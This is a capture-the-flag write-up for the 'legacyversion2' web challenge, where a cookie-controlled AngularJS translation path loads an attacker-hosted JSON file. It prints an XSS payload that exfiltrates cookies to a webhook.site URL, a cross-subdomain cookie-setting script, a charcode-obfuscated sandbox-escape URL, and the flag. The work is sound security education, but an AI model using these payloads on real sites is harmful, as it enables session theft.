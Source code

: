 # legacyversion2
> Want some more legacy after solving legacy1?

## About the Challenge
We got 2 websites, first the admin bot. So we need to input our URL that contains XSS payload in order to obtain the flag in cookie's admin. But we need to use a website from `legacy` chall. So the idea here, we need to redirect the admin to the `legacyversion2` and exploit XSS there.

![preview_admin](images/preview_admin.png)

And another website that using AngularJS. This website has a functionality to change the language from english to deutsch if we press website `German` or `English` button

![preview_website](images/preview_website.png)

## How to Solve?
If we check the source code by pressing `Ctrl + U` there is a custom JS code called `script.js`. Here is the content of the JS file

```javascript
document.cookie="dummy=legacy1";
var app = angular.module('myApp', ['ngCookies', 'pascalprecht.translate']);

app.config(['$translateProvider', function ($translateProvider) {
  $translateProvider.translations('en');
  // configures staticFilesLoader
  $translateProvider.useStaticFilesLoader({
    prefix: '',
    suffix: '.json'
  });
  // load 'en' table on startup
  $translateProvider.preferredLanguage('en');
  $translateProvider.useCookieStorage();
  
}]);
  
app.controller('Ctrl', ['$translate', '$scope', function ($translate, $scope) {
  
  $scope.changeLanguage = function (langKey) {
    $translate.use(langKey);
  };
}]);
```

This code sets up an AngularJS application with translation capabilities, allowing the user to switch between languages and store their language preference in a cookie. Now if we check the cookie on this website, you will see there are 2 cookies called `dummy` and `NG_TRANSLATE_LANG_KEY`

![cookie](images/cookie.png)

And then when I check the HTTP request when changing the language from english to germany, there is a request like this

```
GET /demo/de.json HTTP/1.1
Host: legacyversion2-1.ctf.hackaplaneten.se:8001
Accept: application/json, text/plain, */*
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,id;q=0.8
```

After changing the cookie from en to de, I attempted to manually modify the cookie value to something random, such as dapppp. And here is the website looks like.

![experiment](images/experiment.png)

Looks broken right? And if we check the network tab on my browser, another request was sent with the following format:

```
GET /demo/dapppp.json HTTP/1.1
Host: legacyversion2-1.ctf.hackaplaneten.se:8001
Accept: application/json, text/plain, */*
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,id;q=0.8
```

Soooo, what if we input my website that have a JSON file that contains the payload?

```json
{
    "HEADLINE": "What an awesome module!",
    "PARAGRAPH": "Srsly!",
    "PASSED_AS_TEXT": "Hey there! I'm passed as text value!",
    "PASSED_AS_ATTRIBUTE": "I'm passed as attribute value, cool ha?",
    "PASSED_AS_INTERPOLATION": "Beginners! I'm interpolated!",
    "VARIABLE_REPLACEMENT": "Hi <img src=x onerror=\"var i=new Image(); i.src='https://webhook.site/47c2cdc9-1233-4ac8-8e8b-55efe06aeb2c/?cookie='+btoa(document.cookie);\">",
    "BUTTON_LANG_DE": "German",
    "BUTTON_LANG_EN": "English"
}
```

I put this payload on Github Gist and then I changed the `NG_TRANSLATE_LANG_KEY` cookie value to `https%3A%2F%2Fgist.githubusercontent.com%2Fdaffainfo%2Fd8cbd68a5b429f7423040b10d135dd16%2Fraw%2F876f863f560a6f75038eccf7ad242fefc5cad1dd%2Fa`

And luckily my payload was working

![testing_xss](images/testing_xss.png)

Now we need to redirect the admin from `legacy` to `legacyversion2` website and we need to set the cookie to Gist Github link. But the problem is, how we can set the `document.cookie` between another subdomain?

The answer is "It's still possible". I was told by @dimasmaulana that we can share cookie between subdomain and he gave me this [reference](https://stackoverflow.com/questions/18492576/share-cookies-between-subdomain-and-domain) to read.

Here is the payload that I used to solve this chall
```
document.cookie="NG_TRANSLATE_LANG_KEY=https%3A%2F%2Fgist.githubusercontent.com%2Fdaffainfo%2Fd8cbd68a5b429f7423040b10d135dd16%2Fraw%2F876f863f560a6f75038eccf7ad242fefc5cad1dd%2Fa;domain=ctf.hackaplaneten.se";window.location.replace("http://legacyversion2-1.ctf.hackaplaneten.se:8001/");window.location.replace("http://legacyversion2-1.ctf.hackaplaneten.se:8001/demo/");
```

So we set the cookie first on `legacy1` and dont forget to add `;domain=ctf.hackaplaneten.se` because we need to set the cookie to another subdomain. And then redirect admin to `legacyversion2` webiste. And here is the final payload that I used to solve this chall

```
http://legacy-1.ctf.hackaplaneten.se:8001/awikwok#!{{$on.constructor('eval(String.fromCharCode(100,111,99,117,109,101,110,116,46,99,111,111,107,105,101,61,34,78,71,95,84,82,65,78,83,76,65,84,69,95,76,65,78,71,95,75,69,89,61,104,116,116,112,115,37,51,65,37,50,70,37,50,70,103,105,115,116,46,103,105,116,104,117,98,117,115,101,114,99,111,110,116,101,110,116,46,99,111,109,37,50,70,100,97,102,102,97,105,110,102,111,37,50,70,100,56,99,98,100,54,56,97,53,98,52,50,57,102,55,52,50,51,48,52,48,98,49,48,100,49,51,53,100,100,49,54,37,50,70,114,97,119,37,50,70,56,55,54,102,56,54,51,102,53,54,48,97,54,102,55,53,48,51,56,101,99,99,102,55,97,100,50,52,50,102,101,102,99,53,99,97,100,49,100,100,37,50,70,97,59,100,111,109,97,105,110,61,99,116,102,46,104,97,99,107,97,112,108,97,110,101,116,101,110,46,115,101,34,59,119,105,110,100,111,119,46,108,111,99,97,116,105,111,110,46,114,101,112,108,97,99,101,40,34,104,116,116,112,58,47,47,108,101,103,97,99,121,118,101,114,115,105,111,110,50,45,49,46,99,116,102,46,104,97,99,107,97,112,108,97,110,101,116,101,110,46,115,101,58,56,48,48,49,47,34,41,59,119,105,110,100,111,119,46,108,111,99,97,116,105,111,110,46,114,101,112,108,97,99,101,40,34,104,116,116,112,58,47,47,108,101,103,97,99,121,118,101,114,115,105,111,110,50,45,49,46,99,116,102,46,104,97,99,107,97,112,108,97,110,101,116,101,110,46,115,101,58,56,48,48,49,47,100,101,109,111,47,34,41,59))')()}}
```

Send the URL to admin bot, and check the webhook

![flag](images/flag.png)

```
SECFEST{L3g@cy_rem3mb0rz_0r_m@yb3_n0t}
```